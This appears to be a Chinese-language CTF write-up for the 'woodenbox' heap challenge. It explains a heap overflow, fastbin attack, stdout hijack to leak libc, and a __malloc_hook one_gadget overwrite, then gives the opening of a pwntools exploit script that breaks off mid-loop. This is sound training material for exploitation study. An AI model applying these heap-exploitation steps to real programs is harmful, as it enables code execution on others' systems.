 ## woodenbox
###解题思路
**edit函数**时没有验证 size ，存在堆溢出

1. malloc 四个chunk A B C D
2. edit A，利用堆溢出把B的size改成B和C的size,
3. free B，B 进 unsorted bin，再 free C，C 进 fastbin
4. 再malloc一个与B原来size相同的chunk，C的fd处存main_arena地址
5. 利用edit改C的fd头两字节，改成`IO_2_1_stderr+157`
6. 申请过去后劫持stdout，泄露libc地址（成功概率1/16）
7. 利用malloc_hook和realloc提高one_gadget的成功率

![image_1e3cegctudb774e9tl15d1n0q9.png-474.5kB][8]
这里有`0x0000007f`，可以 `fastbin attack`

unsortedbin、fastbin 的指针指向堆块头部， 
malloc、tcache 的指针指向堆块的fd

### exp
```py
from pwn import *
import sys
import time
context.terminal = ['tmux', 'splitw', '-h']
#context.log_level = "debug"

filename = './woodenbox2'
elf = ELF(filename)
libc = ELF('libc6_2.23-0ubuntu11_amd64.so')

if len(sys.argv) == 1:
    #p = process(filename)
    pass
else:
    p = remote(sys.argv[1], int(sys.argv[2]))

def sla(x, y):
    return p.sendlineafter(x, y)
def sa(x, y):
    return p.sendafter(x, y)


def add(size, name):
    sla('choice:', '1')
    sla('name:', str(size))
    sla('item:', name)

def change(index, size, name):
    sla('choice:', '2')
    sla('of item:', str(index))
    sla('name:', str(size))
    sa('the item:', name)

def free(index):
    sla('choice:', '3')
    sla('item:', str(index))

def exit():
    sla('choice:', '4')


#if __name__ == "__main__":
for i in range(0x10):
```

  [1]: https://xz.aliyun.com/t/6067
  [2]: http://static.zybuluo.com/leafish/jpp8avpsr27dzae7r1d9x6gz/image_1e693d72u1enl1cneadj3h41tng9.png
  [3]: https://kirin-say.top/2020/03/10/Kernoob-kmalloc-without-SMAP/
  [4]: http://static.zybuluo.com/leafish/evsddfq2iq6gwhck86bsdr0w/image_1e6bda8am1d31h36ubj1ul83079.png
  [5]: http://static.zybuluo.com/leafish/55my5icnzf3lnwnm1bu6zlyb/image_1e6becjm0hvr1bct1odg13ugbv4m.png
  [6]: http://static.zybuluo.com/leafish/413oe16gqt1ggrad5ho0hufa/image_1e6bh0sc91jdg1vir1b0urmt11lu13.png
  [7]: http://static.zybuluo.com/leafish/vyz71tvzk27vi1xlkuhub29q/image_1e6arvrf11sodt53eamhob163vm.png
  [8]: http://static.zybuluo.com/leafish/ull0t1d5zkiolnqkyd6jvrkm/image_1e3cegctudb774e9tl15d1n0q9.png
  [9]: http://static.zybuluo.com/leafish/fiw8hzlguct6w4mk2xzb4jsj/image_1e3ef7h6d10v61al4159f8p46k3m.png
  [10]: http://static.zybuluo.com/leafish/dm87f6we8lbvz08xgsksoubf/image_1e3efov151ckqmngalh1loi19v713.png
  [11]: http://static.zybuluo.com/leafish/a6m91ioa9l9xd0jcuct6cu5h/image_1e3eeat3mq56rv9bqm1udtk599.png
  [12]: http://static.zybuluo.com/leafish/0d4ntjurjrxcbf5mi1okz5te/image_1e3mch0hn1e5o1fqo1g8egom34h9.png
  [13]: http://static.zybuluo.com/leafish/noeaxbpb7ladjp6end8c8d6n/image_1e3p36h6gntr11qi1sfv89qpc09.png
  [14]: http://static.zybuluo.com/leafish/0wh1s7ttqasjk60vvbvdh5ar/image_1e3p39t88h7a1gno1rvi1ggcccpm.png
  [15]: http://static.zybuluo.com/leafish/5u93lj5peuib5v66grw07awr/image_1e3n3ma421g1q1ojd1516ikv1cok9.png
  [16]: http://static.zybuluo.com/leafish/jg93j2ppjpkfqnyutnf5b9to/image_1e3n5fcbj1o5c1omaco918i266km.png
  [17]: http://static.zybuluo.com/leafish/ej95qlwlrxb0h06h8rkycavy/image_1e3n5kj5k4391ulu1v4k12o1hfb13.png
  [18]: http://static.zybuluo.com/leafish/sp7r36az52z5p9andxjf3v5l/image_1e3n6oo8v1us91vcd31n13r31u2j1g.png
  [19]: http://static.zybuluo.com/leafish/vn0zh475yn0thyihbub3v4cm/image_1e3n7co4su6t1j3sb7m1jfl1k0h1t.png
  [20]: http://static.zybuluo.com/leafish/x7jpyo5qpj84b13dbcem1dtd/image_1e3n9dk8m1e5h9fp16edt7l1c042a.png